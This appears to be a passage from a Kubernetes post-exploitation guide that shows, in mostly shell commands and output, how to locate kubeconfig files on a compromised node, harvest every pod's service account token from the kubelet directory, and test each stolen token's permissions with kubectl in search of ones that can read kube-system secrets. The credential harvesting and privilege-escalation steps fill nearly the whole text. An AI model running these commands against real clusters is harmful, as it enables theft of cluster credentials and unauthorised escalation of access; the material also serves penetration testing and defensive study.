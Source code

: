 ```bash
find / -name kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```
### Find all tokens from all pods and see what permissions they have assigned to them
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

#### Grab all tokens from all pods on the system
This lists the location of every service account used by every pod on the node you are on, and tells you the namespace. 
```bash
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort
```

```
default | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/calico-node-token-d426t/token
```

#### For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
```bash
cat /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
```
```
eyJhbGciOiJSUzI1NiIsImtpZCI6Ik[redacted]
```

#### System where you have kubectl installed:
```bash
DTOKEN=`echo eyJhbGciOiJSUzI1NiIsImtpZCI6Ik[redacted]`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions
```
